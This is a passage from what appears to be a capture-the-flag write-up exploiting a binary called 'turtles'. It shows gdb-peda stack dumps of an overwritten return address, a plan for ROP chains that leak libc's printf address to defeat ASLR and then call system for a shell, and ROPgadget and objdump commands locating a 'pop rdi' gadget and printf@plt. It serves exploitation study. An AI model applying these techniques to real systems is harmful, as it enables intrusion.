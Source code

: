```
   0x400d54 <_fini>:	sub    rsp,0x8
[------------------------------------stack-------------------------------------]
0000| 0x7ffca50fc1c8 ('0' <repeats 16 times>)
0008| 0x7ffca50fc1d0 ("00000000")
0016| 0x7ffca50fc1d8 --> 0x0 
0024| 0x7ffca50fc1e0 ('0' <repeats 16 times>, "\360N\017\002")
0032| 0x7ffca50fc1e8 ("00000000\360N\017\002")
0040| 0x7ffca50fc1f0 --> 0x20f4ef0 (0x00000000020f4ef0)
0048| 0x7ffca50fc1f8 ('0' <repeats 24 times>, "\360N\017\002")
0056| 0x7ffca50fc200 ('0' <repeats 16 times>, "\360N\017\002")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0000000000400d44 in __libc_csu_init ()
gdb-peda$ i f
Stack level 0, frame at 0x7ffca50fc1c8:
 rip = 0x400d44 in __libc_csu_init; saved rip = 0x3030303030303030
 called by frame at 0x7ffca50fc1d8
 Arglist at 0x7ffca50fc1c0, args: 
 Locals at 0x7ffca50fc1c0, Previous frame's sp is 0x7ffca50fc1d0
 Saved registers:
  rip at 0x7ffca50fc1c8
gdb-peda$ x/20g 0x7ffca50fc1f8
0x7ffca50fc1f8:	0x3030303030303030	0x3030303030303030
0x7ffca50fc208:	0x3030303030303030	0x00000000020f4ef0
0x7ffca50fc218:	0x3030303030303030	0x3030303030303030
0x7ffca50fc228:	0x3030303030303030	0x3030303030303030
0x7ffca50fc238:	0x3030303030303030	0x3030303030303030
0x7ffca50fc248:	0x3030303030303030	0x3030303030303030
0x7ffca50fc258:	0x3030303030303030	0x3030303030303030
0x7ffca50fc268:	0x3030303030303030	0x3030303030303030
0x7ffca50fc278:	0x3030303030303030	0x3030303030303030
0x7ffca50fc288:	0x3030303030303030	0x3030303030303030
``` 

Looking at this, we can see that we will have `24` bytes worth of instructions before our innput is interrupted at `0x7ffca50fc210` by `0x00000000020f4ef0`. We can just call the same ROP gadget to pop six more values off of the stack, that way when it returns, we will have plenty of space to work with for our ROP Chain. Luckily for us, to do this we just have to place the gadget again in the spot immeditely after the first gadget in the fake chunk.

Now for the ROP Chain, we will be making two of them. The first is to make a call to `printf` (using the plt address since it's an imported function) with the got address (ptr to libc address) of `printf`, which will allow us to break ASLR in libc, and know the address of `system`. After this ROP chain, we will just return to main again to rexecute the bug, and get a shell.

Find the ROP gagdet to pop a value into the `rdi` register:
```
$	ROPgadget --binary turtles | grep 'pop rdi'
0x0000000000400d43 : pop rdi ; ret
``` 

get the plt address of `printf`:
```
$	objdump -D turtles | grep printf
00000000004009d0 <printf@plt>:
  400c3e:	e8 8d fd ff ff       	callq  4009d0 <printf@plt>
```
